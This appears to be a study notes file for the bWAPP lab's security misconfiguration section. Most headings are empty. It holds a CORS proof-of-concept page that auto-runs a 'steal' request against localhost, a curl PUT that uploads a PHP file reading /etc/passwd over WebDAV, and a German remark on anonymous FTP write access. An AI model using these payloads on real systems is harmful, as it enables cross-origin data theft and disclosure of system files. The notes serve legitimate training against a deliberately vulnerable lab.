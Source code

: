 ### // A5 - Security Misconfiguration //
---
##### Arbitrary File Access (Samba)
---
##### Cross-Domain Policy File (Flash)
---
##### Cross-Origin Resource Sharing (AJAX)
~~~
<html>
    <head>
    <script>
        function steal() {
            var r = new XMLHttpRequest();
            r.onreadystatechange = function() {
                if (r.readyState == 4 && r.status == 200) {
                    alert(r.responseText);
                }
            };
            r.open("GET", "http://localhost:8083/bWAPP/secret-cors-1.php", true);
            r.send();
        }
    </script>
    </head>
    <body onload="steal()">
    </body>
</html>
~~~

---
##### Cross-Site Tracing (XST)
---
##### Denial-of-Service (Large Chunk Size)
---
##### Denial-of-Service (Slow HTTP DoS)
---
##### Denial-of-Service (SSL-Exhaustion)
---
##### Denial-of-Service (XML Bomb)
---
##### Insecure FTP Configuration
>Falls anonyme authentifizierung aktiviert ist und schreiberechte vergeben wird, ist kein Login/Passwort notwendig.
---
##### Insecure SNMP Configuration
---
##### Insecure WebDAV Configuration
~~~
curl -X PUT --data '<?php $f=fopen("/etc/passwd","r"); echo fread($f,filesize("/etc/passwd")); fclose($f); ?>' 'http://localhost:8083/webdav/attack.php'
~~~
---
##### Local Privilege Escalation (sendpage)
---
##### Local Privilege Escalation (udev)
---
##### Man-in-the-Middle Attack (HTTP)
---
##### Man-in-the-Middle Attack (SMTP)
---
##### Old/Backup & Unreferenced Files
---
##### Robots File
